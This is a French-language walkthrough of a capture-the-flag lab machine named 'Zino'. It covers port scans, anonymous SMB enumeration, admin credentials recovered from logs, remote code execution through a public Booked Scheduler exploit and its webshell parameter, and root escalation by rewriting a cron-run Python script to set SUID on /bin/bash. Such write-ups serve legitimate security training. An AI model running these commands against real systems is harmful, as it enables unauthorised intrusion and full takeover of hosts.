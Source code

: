   # Zino

	sudo masscan -p1-65535,U:1-65535 192.168.203.64 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.203.64 -oN nmap.txt
	feroxbuster --silent -u http://192.168.203.64:8003
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	21/tcp open ftp vsftpd 3.0.3  
	22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
	139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
	445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
	3306/tcp open mysql?  
	8003/tcp open http Apache httpd 2.4.38
	

http://192.168.203.64:8003/booked/Web/ => Possibilité de s'inscrire et de tenter de réinitialiser un mot de passe perdu

Le SMB est ouvert et j'ai obtenu pas mal d'informations et quelques fichiers : 

	enum4linux -a 192.168.203.64
	smbclient -L //192.168.203.64/ -N
	smbclient //192.168.203.64/Zino -N
	smb: \> mget *
	smb: \> exit
	cat *.log

Je vois deux morceaux intéressants dans ces logs : 

> Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
> </br>...
> </br>Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
> </br>Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"


Je me connecte sur le panel du port 8083 et je vois un "Booked Scheduler v2.7.5" qui me confirme que je vais pouvoir utiliser un exploit trouvé un peu plus tôt. 
</br>Voir : https://www.exploit-db.com/exploits/50594

	python2.7 ~/000_exploits/exploit_Booked_RCE.py http://192.168.203.64:8003 admin adminadmin
	...
	$ "ls"
	$ "cat /home/peter/local.txt"

Attention aux guillemets sous peine de faire planter le script. Pour plus de confort on peut aussi déclencher la backdoor manuellement et proprement en allant sur http://192.168.203.64:8003/booked/Web/custom-favicon.php?cmd=ls par exemple.

	
### Élévation de privilèges : 

Simple tâche planifiée avec un script à remplacer :

	cat /etc/crontab
	echo "import os" > /var/www/html/booked/cleanup.py
	echo "os.system('chmod 4777 /bin/bash')" >> /var/www/html/booked/cleanup.py
	...
	/bin/bash -p 
	whoami
	cat /root/root.txt



